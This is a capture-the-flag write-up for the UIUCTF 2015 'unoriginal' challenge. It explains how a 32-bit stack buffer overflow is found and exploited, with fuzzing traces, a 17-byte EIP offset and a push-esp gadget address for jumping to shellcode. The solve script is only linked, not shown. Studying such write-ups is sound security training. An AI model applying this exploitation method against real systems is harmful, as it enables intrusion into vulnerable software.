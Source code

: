 # UIU CTF 2015: unoriginal

**Category:** Pwnable
**Points:** 100
**Solves:** 22
**Description:** 

> PWN: Ah, but this challenge at unoriginal.uiuc.sexy port 1235 is so [unoriginal](unoriginal) :( .

## Write-up

This writeup is based on following writeups:

* <https://gist.github.com/emyei/5f60c733761573b760d2>

### Meta

* Stack Buffer Overflow `sbo`, `jump to register`

We are given a i386 32bit non-stripped ELF for Linux:

```bash
$ file unoriginal 
unoriginal: ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.32, BuildID[sha1]=05553bc7eda7c492d2a2fead35eccc12d746fff7, not stripped
```

Running it:

```bash
$ ./unoriginal 
Hack the Planet!
hello?
```

We can provide input after the initial banner `Hack the Planet!`.

`checksec`:

```bash
gdb-peda$ checksec 
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : disabled
```

Everything is turned off - so we can e.g. provide shellcode to the stack to be executed! Good news (for us)!

Let's try to provide some more input and check for a Stack Buffer Overflow:

```bash
$ p -c 'print "A"*0x500' | ./unoriginal 
Hack the Planet!
Segmentation fault (core dumped)
```

Bingo! Let's have a closer look with `ltrace`:

```bash
$ p -c 'print "A"*0x500' | ltrace -s 256 -f ./unoriginal 2> /tmp/out
Hack the Planet!
$ cat /tmp/out 
[pid 2387] __libc_start_main(0x8048449, 1, 0xffc026a4, 0x8048480 <unfinished ...>
[pid 2387] puts("Hack the Planet!")                                                                                                                                                                                           = 17
[pid 2387] read(0, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 256) = 256
[pid 2387] --- SIGSEGV (Segmentation fault) ---
[pid 2387] +++ killed by SIGSEGV +++
```

Ok looks like the binary reads `256` bytes from our input with `read`.

Let's create a pattern with size `256` with `gdb-peda`:

```bash
gdb-peda$ pattern_create 256
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAnAASAAoAATAApAAUAAqAAVAArAAWAAsAAXAAtAAYAAuAAZAAvAAwAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%b'
```

And provide it to the binary while executing it with `strace`:

```bash
$ echo -n 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAnAASAAoAATAApAAUAAqAAVAArAAWAAsAAXAAtAAYAAuAAZAAvAAwAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%b' | strace -s 256 -f ./unoriginal 2>/tmp/out 
Hack the Planet!
Segmentation fault (core dumped)
$ cat /tmp/out 
execve("./unoriginal", ["./unoriginal"], [/* 32 vars */]) = 0
[ Process PID=2435 runs in 32 bit mode. ]
brk(0)                                  = 0x97de000
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
mmap2(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xfffffffff77d7000
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
open("/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
fstat64(3, {st_mode=S_IFREG|0644, st_size=117029, ...}) = 0
mmap2(NULL, 117029, PROT_READ, MAP_PRIVATE, 3, 0) = 0xfffffffff77ba000
close(3)                                = 0
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib32/libc.so.6", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\1\1\1\0\0\0\0\0\0\0\0\0\3\0\3\0\1\0\0\0\300\233\1\0004\0\0\0\204\214\32\0\0\0\0\0004\0 \0\n\0(\0C\0B\0\6\0\0\0004\0\0\0004\0\0\0004\0\0\0@\1\0\0@\1\0\0\5\0\0\0\4\0\0\0\3\0\0\0\264\207\26\0\264\207\26\0\264\207\26\0\23\0\0\0\23\0\0\0\4\0\0\0\1\0\0\0\1\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\4H\32\0\4H\32\0\5\0\0\0\0\20\0\0\1\0\0\0\320Q\32\0\320Q\32\0\320Q\32\0\354,\0\0\254X\0\0\6\0\0\0\0\20\0\0\2\0\0\0\250m\32\0\250m\32\0\250m\32\0\360\0\0\0\360\0\0\0\6\0\0\0\4\0\0\0\4\0\0\0t\1\0\0t\1\0\0t\1\0\0D\0\0\0D\0\0\0\4\0\0\0\4\0\0\0\7\0\0\0\320Q\32\0\320Q\32\0"..., 512) = 512
fstat64(3, {st_mode=S_IFREG|0755, st_size=1742588, ...}) = 0
mmap2(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xfffffffff77b9000
mmap2(NULL, 1747580, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0xfffffffff760e000
mmap2(0xf77b3000, 12288, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x1a5000) = 0xfffffffff77b3000
mmap2(0xf77b6000, 10876, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0) = 0xfffffffff77b6000
close(3)                                = 0
mmap2(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xfffffffff760d000
set_thread_area(0xff8e4b50)             = 0
mprotect(0xf77b3000, 8192, PROT_READ)   = 0
mprotect(0xf77f9000, 4096, PROT_READ)   = 0
munmap(0xf77ba000, 117029)              = 0
fstat64(1, {st_mode=S_IFCHR|0620, st_rdev=makedev(136, 4), ...}) = 0
mmap2(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xfffffffff77d6000
write(1, "Hack the Planet!\n", 17)      = 17
read(0, "AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAnAASAAoAATAApAAUAAqAAVAArAAWAAsAAXAAtAAYAAuAAZAAvAAwAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%b", 256) = 256
--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x41414341} ---
+++ killed by SIGSEGV (core dumped) +++
```

We can see in the second-last line in `si_addr` the overwritten RIP causing the Segmentation Fault, `0x41414341`.

Having the endianess in mind, we convert this address back to a string `ACAA` and look for the offset and thus the length needed to overwrite `EIP` using `gdb-peda`'s `pattern_offset`:

```bash
gdb-peda$ pattern_offset ACAA
ACAA found at offset: 17
```

So we have to provide `17` bytes to overwrite `EIP`.

Testing it again:

```bash
$ p -c 'import sys; sys.stdout.write("A"*17+"BBBB")'                                                                                                                                                                                                                                                                                                                 
AAAAAAAAAAAAAAAAABBBB$ p -c 'import sys; sys.stdout.write("A"*17+"BBBB")' | strace -s 256 -f ./unoriginal 
execve("./unoriginal", ["./unoriginal"], [/* 32 vars */]) = 0
[...]
read(0, "AAAAAAAAAAAAAAAAABBBB", 256)   = 21
--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x42424242} ---
+++ killed by SIGSEGV (core dumped) +++
Segmentation fault (core dumped)
```

`si_addr` is indeed `0x42424242` == `BBBB`.

We can control `EIP` now. However, we need to redirect `EIP` to a valid, executable stack address, which we can't leak.

So that means we have to redirect `EIP` to static addresses in the binary (starting with `0804....`), which leaves us with the option `ROP`.

Our goal, as in [this challenge](https://github.com/ctfs/write-ups-2015/blob/f8e2f4b7159b774e694357dba83559687a46ffb0/nullcon-hackim-2015/exploit-1/README.md) is to find a gadget allowing us to either let `EIP` jump to the current stack position without having to provide any valid stack address.

[This writeup](https://gist.github.com/emyei/5f60c733761573b760d2) found a `push esp; nop; <...>; nop; mov ebx, [esp]; ret` gadget, which leads to this solution:

* Overwrite `EIP` with the address of the gadget, `0x8048350`
* Right after that, provide our shellcode
* After a `ret` from the current function calling `read` is executed, `EIP` will jump to the gadget, executing it
* `esp`, in the meantime, will point to our shellcode
* The gadget essentially pushes the current stack pointer `esp` address to the stack
* After a unnecessary `mov ebx, [esp]`, `ret` is executed, forcing `EIP` to jump to whatever `esp` is currently pointing to
* Our shellcode is thus executed, providing us with a shell!

[This python script](./solve.py) does the job:

```bash
K$ p solve.py 
[+] Started program './unoriginal'
[*] Switching to interactive mode
$ ls f*
flag.txt
$ cat flag.txt
flag{actually_the_flag_is_unknown}
$ ^D
[*] Stopped program './unoriginal'
```

PS: TODO or FIX is that it doesn't work remotely.

## Other write-ups and resources

* <https://gist.github.com/emyei/5f60c733761573b760d2>
* <http://pastebin.com/UZrf2RJ5>